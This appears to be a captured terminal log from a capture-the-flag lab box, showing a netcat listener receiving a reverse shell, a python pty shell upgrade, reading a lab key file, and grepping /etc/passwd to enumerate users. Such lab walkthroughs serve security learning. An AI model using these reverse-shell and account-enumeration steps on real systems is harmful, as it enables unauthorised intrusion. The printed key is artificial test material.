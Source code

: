 ```bash
listening on [any] 11222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.122.205] 35786
/bin/sh: 0: can't access tty; job control turned off
$ whoami
bob-boba
$ id
uid=1003(bob-boba) gid=1003(bob-boba) groups=1003(bob-boba)
$ pwd
/home/bob-boba
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bob-boba@nanocherryctf:~$ export TERM=xterm

bob-boba@nanocherryctf:~$ ls
ls
bobLog.txt  chads-key3.txt  coinflip.sh
bob-boba@nanocherryctf:~$ cat bobLog.txt
cat bobLog.txt
Bob Log

4/10/20XX

One of the funniest parts of working for Chad is both how much debt we have and how much other people owe us!

I know that Chad uses me as both his accountant and debt collector, but really, we need to hire more henchmen.

Perhaps we can convince the Arch Linux users to join our cause... Hopefully none of them like Vim, after all, Chad intends to eliminate every trace of the text editor and replace it with Nano.

Either way, I gotta really protect this password segment Chad gave me in case of emergencies!

Bob

bob-boba@nanocherryctf:~$ cat chads-key3.txt
cat chads-key3.txt
7h3fu7ur3

bob-boba@nanocherryctf:~$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
chad-cherry:x:1000:1000:Chad Cherry:/home/chad-cherry:/bin/bash

bob-boba@nanocherryctf:~$ cat /etc/passwd | grep '/bin/sh'
molly-milk:x:1001:1001::/home/molly-milk:/bin/sh
sam-sprinkles:x:1002:1002::/home/sam-sprinkles:/bin/sh
bob-boba:x:1003:1003::/home/bob-boba:/bin/sh
notsus:x:1004:1004::/home/.notsus:/bin/sh

bob-boba@nanocherryctf:~$

```
